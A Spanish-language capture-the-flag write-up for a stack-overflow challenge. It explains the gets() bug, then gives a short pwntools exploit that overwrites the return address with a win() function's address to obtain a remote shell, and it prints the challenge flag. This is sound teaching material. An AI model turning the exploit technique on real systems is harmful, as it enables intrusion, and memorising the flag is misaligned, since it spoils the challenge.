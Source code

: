 # Nombre: `ropmeme`
### Dificultad: `media`
### Categoría: `pwn`
### Autor: [Cae](https://c4ebt.github.io/)
### Flag: `DCCTF{pwn_c0ld3st_c4t3g0ry}`

### Descripción:
Recuperamos este binario de los tiempos en que Intro a la Progra se hacía en C y lo pusimos a correr en `ropmeme.dcctf.xyz:5001`. Un montón de novatos programando en un lenguaje sin memory safety; que podría salir mal?

### Hint 1:
`man gets`

### Hint 2:
```
Alister: oye Cae el nombre de uno de tus desafíos tiene un typo
Cae: no es un typo ;)
```

### Solución:
Writeup muy superficial. Los conceptos que están por detrás del desafío son más profundos y las técnicas más complejas.
El source usa gets() para leer a un buffer de 64 bytes. gets() está deprecated, tal como indica su manpage: "Never use this function. Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use.  It has been used to break computer security". Entonces, se tiene un buffer overflow en la call a gets. Usando la herramienta checksec se puede ver que el binario no tiene ni Canary ni PIE, solo NX, por lo que se debería poder explotar con un ROP. Haciendo un reversing mínimo se puede encontrar la función win(), que hace la syscall 0x3b (execve) con una shell como argumento, por lo que podemos llamarla para obtener una shell remota. Finalmente, el exploit usando pwntools queda así:

```python
from pwn import *

context.log_level = 'DEBUG'
#p = process("./ropmeme")
p = remote("ropmeme.dcctf.xyz", 80)

junk = "A"*72
payload = junk + p64(0x00401176)

p.sendline(payload)
p.interactive()
```
